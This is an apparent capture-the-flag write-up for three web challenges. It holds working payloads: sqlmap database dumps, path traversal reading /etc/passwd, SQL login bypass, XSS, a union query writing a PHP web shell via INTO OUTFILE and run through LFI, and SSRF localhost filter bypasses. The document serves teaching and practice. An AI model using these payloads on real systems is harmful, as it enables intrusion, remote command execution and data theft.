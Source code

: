 #### BrailleDB-1

![alt text](Attachments/1.png)

Try to input single quote and it gives us an error

```asciidoc
<br />
<b>Fatal error</b>: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near &quot;'''&quot;
LINE 1: ...CT braille_representation FROM braille WHERE character = '''
^ in /var/www/html/api/braille.php:33
Stack trace:
#0 /var/www/html/api/braille.php(40): charToBraille(''')
#1 {main}
thrown in <b>/var/www/html/api/braille.php</b> on line <b>33</b><br />
```

We may have SQL injection, copy the request and save it in file, lets name it req.txt and run sqlmap on it

```shell
sqlmap -r req.txt --batch --dbs --level 3
```

```shell
[*] information_schema
[*] pg_catalog
[*] public
```

We get few database names, the one we are interested in is 'public', now enumerate the tables in the database 'public'

```shell
sqlmap -r req.txt -D public --tables --batch --level 3
```

```shell
+----------+
| braille  |
| feedback |
| flag     |
+----------+
```

We want to dump the data of table 'flag'

```shell
sqlmap -r req.txt -D public -T flag --batch --dump-all --level 3
```

And we get the flag
**_flag : swampCTF{Un10n_A11_Th3_W4yyy!}_**

---

#### UnderConstruction

Visit the given web page and in front of us we see

![alt text](Attachments/2.png)

So there is a page query parameter and it id loading a page based on the name given to it, the first thing that comes to my mind is LFI so lets try adding basic LFI payload, generally the websites are hosted from /var/www/html so we need to go back atleast 3 directories

```url
http://chals.swampctf.com:60310/?page=../../../etc/passwd
```

And we get the response

```http
HTTP/1.1 200 OK
Date: Sun, 07 Apr 2024 17:04:27 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Content-Length: 978
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

So there is only one user that is the root user

The hint given to us is that we have to chain 2 vulnerabilities so lets see if we can find another one as well. We can see that there is an option of Admin login lets click on that

![alt text](Attachments/3.png)

Again the file being loaded using the page parameter and we know we have LFI
Lets try SQL injection on the login form

```SQL
username: admin' or 1=1-- -
password: randomData
```

And we get login successful

![alt text](Attachments/4.png)

We can also see that whatever we type is being reflected back so we may also have reflected XSS, we can try that too

```SQL
username: admin' or 1=1-- -<script>alert(10)</script>
password : asdf
```

And we get a pop up

![alt text](Attachments/5.png)

This is although useless but good to try and find other vulnerabilities as well for practice

Now we need to chain SQL injection and LFI, how can we do that?

Lets try using SQL Union queries and find the number of columns

```SQL
username: a' or 1=1 union select 1 from information_schema.tables-- -
password: asdf
```

It gives back the response

![alt text](Attachments/6.png)

```text
Login failed! Please try again.
The used SELECT statements have a different number of columns
```

Lets try with 2 columns

```SQL
a' or 1=1 union select 1,2 from information_schema.tables-- -
```

Still Login failed
Now with 3 columns

```sh
a' or 1=1 union select 1,2,3 from information_schema.tables-- -
```

And we get a successful login

![alt text](Attachments/7.png)

```asciidoc
Login successful! Welcome back, a' or 1=1 union select 1,2,3 from information_schema.tables-- -!
```

The next step was new to me. The thing is even though it shows login successful, nothing changes, no cookie is set whatsoever nor does the previous page which had site under construction changes so we need to do something with just the SQL commands.
First I try to figure out the version of SQL and more information about the database
using sqlmap, we can also do it manually

I found this

```asciidoc
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

This step is where it gets interesting, these is a command called `into outfile`

This is what the official documentation says

``SELECT INTO OUTFILE` writes the resulting rows to a file, and allows the use of column and row terminators to specify a particular output format.`

You can read more about it on [Into Outfile](https://mariadb.com/kb/en/select-into-outfile/)

Basically we want to write to a file then open it using LFI, in that file we pass command injection payload like

```php
<?php system($_GET['cmd']);?>
```

Since the server is running on php, this should work
Here is what our SQL query will look like

```SQL
' union select null,null,"<?php system($_GET['cmd']);?>" into outfile "/tmp/command.php"-- -
```

![alt text](Attachments/8.png)

We will get a login failed but that doesnt matter
Now all we have to do is open this file using LFI and add query parameter `cmd` to the request, this is how our request will look like

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=id
```

![alt text](Attachments/9.png)

We pass `ls` to command parameter and find out that the name of file is `super_secret_flag_plz_no_read.txt`

![alt text](Attachments/10.png)

Lets do

```url
http://chals.swampctf.com:60310/?page=../../../tmp/command.php&cmd=cat%20%20super_secret_flag_plz_no_read.txt
```

And we get the flag

![alt text](Attachments/11.png)

**_flag : swampCTF{ch4ining_Vu1ns_I5_Pr3tty_C0Ol}_**

---

#### MemeGenerator

- Looking around the website the most interesting features are to create a meme, and to load in a custom image

- When you load an image from a URL it makes a POST request to loadImages, with the payload `{imageURL: INPUT}` - Something like this is potentially vulnerable to SSRF

- If you set the URL to be \https://example.com, the response returned is what you would get if you make a request to \https://example.com directly

- Trying \http://localhost:5000 to see what the developers may be exposing locally, you get the error "Your request was blocked for security reasons - A cheat sheet like this has resources on how to bypass this filter: \https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

- Trying \http://127.1:5000 bypasses the filter, but we see the same landing page

- Doing a dirb on the website reveals that there is a page /admin, that returns a 403, but maybe not on localhost

- Doing SSRF with \http://127.1:5000/admin gives you the security error again

- The payload \http://127.1:5000/%61dmin byasses this payload and you get the flag
